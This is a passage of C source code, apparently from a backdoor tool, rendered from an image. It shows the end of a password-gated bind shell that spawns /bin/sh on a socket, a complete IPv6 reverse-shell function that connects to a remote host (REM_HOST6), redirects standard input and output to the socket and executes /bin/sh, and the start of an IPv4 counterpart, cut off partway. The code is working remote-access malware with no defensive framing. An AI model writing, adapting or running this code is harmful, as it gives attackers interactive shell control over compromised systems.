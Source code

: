 ```c

    read(new_sockfd, input, sizeof(input));
    input[strcspn(input, "\n")] = 0;
    if (strcmp(input, PASS) == 0)
    {
        execve("/bin/sh", NULL, NULL);
        close(sockfd);
    }
    else 
    {
        shutdown(new_sockfd, SHUT_RDWR);
        close(sockfd);
    }
    
}

int ipv6_rev (void)
{
    const char* host = REM_HOST6;

    struct sockaddr_in6 addr;
    addr.sin6_family = AF_INET6;
    addr.sin6_port = htons(REM_PORT);
    inet_pton(AF_INET6, host, &addr.sin6_addr);

    struct sockaddr_in6 client;
    client.sin6_family = AF_INET6;
    client.sin6_port = htons(LOC_PORT);
    client.sin6_addr = in6addr_any;

    int sockfd = socket(AF_INET6, SOCK_STREAM, 0);

    bind(sockfd, (struct sockaddr*) &client, sizeof(client));

    connect(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    for (int count = 0; count < 3; count++)
    {
        dup2(sockfd, count);
    }

    execve("/bin/sh", NULL, NULL);
    close(sockfd);

    return 0;
}

int ipv4_rev (void)
{
    const char* host = REM_HOST4;

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(REM_PORT);
    inet_aton(host, &addr.sin_addr);

    struct sockaddr_in client;
    client.sin_family = AF_INET;
    client.sin_port = htons(LOC_PORT);
    client.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

```